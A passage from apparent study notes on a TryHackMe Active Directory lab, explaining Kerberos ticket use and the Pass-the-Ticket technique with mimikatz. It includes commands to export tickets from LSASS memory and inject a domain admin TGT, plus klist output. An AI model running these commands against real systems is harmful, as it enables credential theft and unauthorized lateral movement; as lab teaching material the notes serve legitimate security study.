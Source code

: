 3. The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.

<figure><img src="../../.gitbook/assets/image (21) (3).png" alt=""><figcaption></figcaption></figure>

### Pass-the-Ticket

Sometimes it will be possible to extract Kerberos tickets and session keys from LSASS memory using mimikatz. The process usually requires us to have SYSTEM privileges on the attacked machine and can be done as follows:

```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

Notice that if we only had access to a ticket but not its corresponding session key, we wouldn't be able to use that ticket; therefore, both are necessary.

While mimikatz can extract any TGT or TGS available from the memory of the LSASS process, most of the time, we'll be interested in TGTs as they can be used to request access to any services the user is allowed to access. At the same time, TGSs are only good for a specific service. Extracting TGTs will require us to have administrator's credentials, and extracting TGSs can be done with a low-privileged account (only the ones assigned to that account).

Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:

```shell-session
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the klist command:

```
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```